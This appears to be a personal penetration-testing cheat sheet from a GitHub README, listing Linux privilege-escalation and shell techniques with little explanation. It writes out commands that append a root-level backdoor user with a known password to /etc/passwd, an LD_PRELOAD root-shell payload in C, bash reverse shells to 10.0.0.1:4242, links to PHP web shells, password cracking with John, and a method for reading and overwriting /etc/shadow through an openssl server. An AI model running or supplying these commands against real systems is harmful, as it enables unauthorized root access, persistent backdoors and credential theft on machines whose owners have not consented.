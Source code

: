 # Tracking the Various Tips and Tracks learned along the way


### Adding a user to /etc/passwd  

```bash
#hacker:myhackerpass
# hacker:$1$mysalt$7DTZJIc9s6z60L6aj0Sui.:0:0:hacker:/root:/bin/bash >> passwd
echo hacker:$(( echo '$1$mysalt$7DTZJIc9s6z60L6aj0Sui.') 2>/dev/null):0:0:hacker:/root:/bin/bash >> passwd
tar -cvf passwd.tar passwd
tar -xvf passwd.tar -C /etc/
# Using make with suid
make -s --eval="\$(file >> /etc/passwd,hacker5:\$\$1\$\$mysalt\$\$7DTZJIc9s6z60L6aj0Sui.:0:0:/:/bin/bash)" .
```

### Finding SUID   

- `find / -perm -u=s -type f 2>/dev/null`
- `find / -type f -perm -4000 2>/dev/null`

  
### Compiling a shell  

```c
/*
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
used to LD_PRELOAD shell.so
*/

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
EOF
```

`gcc cowroot.c -o cowroot -pthread`
### Cracking Passwords with John  

- `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format:RAW-SHA1`
- `john --list=formats`
- [Hash Formats](https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)
- [hash-identifier](https://hashes.com/en/tools/hash_identifier)

### Cracking Passwords with Hashcat

- [Examples](https://hashcat.net/wiki/doku.php?id=example_hashes)

### Upgrading a shell

- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `python -c 'import pty; pty.spawn("/bin/sh")'`

### Reverse Shells

- `bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
- `0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196`
- `/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1`
- https://github.com/flozz/p0wny-shell
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### Nmap Scans

- `sudo nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p-`

### File Transferring

- `python3 -m http.server 80`

### Wordpress Vulnerability Scans

`wpscan --url 10.x.x.x`

### Overwriting /etc/shadow with OpenSSL

```bash
# Create keys in /tmp for easy access
cd /tmp
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

# Switch serving directory to /
cd /

# Start https content server with generated certs
openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP

# In another local shell, retrieve /etc/shadow
curl -k https://localhost:1337/etc/shadow

# Modify root password with `hash:password` - `$1$mysalt$7DTZJIc9s6z60L6aj0Sui.` = myhackerpass
# Alternatively - openssl passwd -6 -salt xyz  yourpass ; -6 = SHA-512, -5 = SHA-256 and -1 = MD5

# Encrypt shadow file
openssl smime -encrypt -aes256 -in /tmp/shadow -binary -outform DER -out /tmp/shadow.enc /tmp/cert.pem

# Set back to root directory for restoring /etc/shadow
cd /

# Restore encrypted shadow file to /etc/shadow
openssl smime -decrypt -in /tmp/shadow.enc -inform DER -inkey /tmp/key.pem -out /etc/shadow
```
